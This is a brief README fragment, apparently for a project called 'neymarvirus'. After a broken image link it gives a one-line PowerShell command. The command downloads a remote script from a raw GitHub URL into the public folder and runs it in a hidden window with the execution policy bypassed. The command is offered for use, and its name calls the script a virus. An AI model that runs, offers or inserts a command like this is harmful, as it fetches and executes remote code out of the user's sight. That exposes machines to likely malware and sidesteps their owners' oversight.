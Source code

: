 you can run it using a one line command:
```pwsh
Invoke-WebRequest -UseBasicParsing -Uri "https://raw.githubusercontent.com/pmattheew/neymarvirus/master/script.ps1" -O "$env:PUBLIC\neymarvirus.ps1"; Start-Process -FilePath 'powershell.exe' -ArgumentList '-WindowStyle Hidden -ExecutionPolicy Bypass -File "$env:PUBLIC\neymarvirus.ps1"'
``` 

